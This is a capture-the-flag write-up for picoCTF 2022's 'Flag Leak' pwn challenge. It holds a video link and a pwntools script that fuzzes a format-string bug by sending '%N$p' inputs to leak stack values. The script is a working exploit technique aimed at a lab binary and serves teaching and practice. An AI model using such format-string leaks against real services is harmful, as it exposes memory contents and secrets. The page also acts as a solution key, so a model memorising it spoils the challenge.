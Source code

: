 ```yaml
---
name: Flag Leak (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for Flag Leak (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Flag Leak

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=2634 "Pico CTF 2022: Flag Leak")

## Solution

```py
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./vuln', checksec=False)

# Let's fuzz 100 values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process('./vuln', level='warn')
        # p = remote('saturn.picoctf.net', 53365, level='warn')
        # When we see the user prompt '>', format the counter
        # e.g. %2$s will attempt to print second pointer as string
        p.sendlineafter(b'>', '%{}$p'.format(i).encode())
        p.recvline()
        # Receive the response
        result = p.recvline()
        # Check for flag
        # if("flag" in str(result).lower()):
        print(str(i) + ': ' + str(result))
        # Exit the process
        p.close()
    except EOFError:
        pass
```

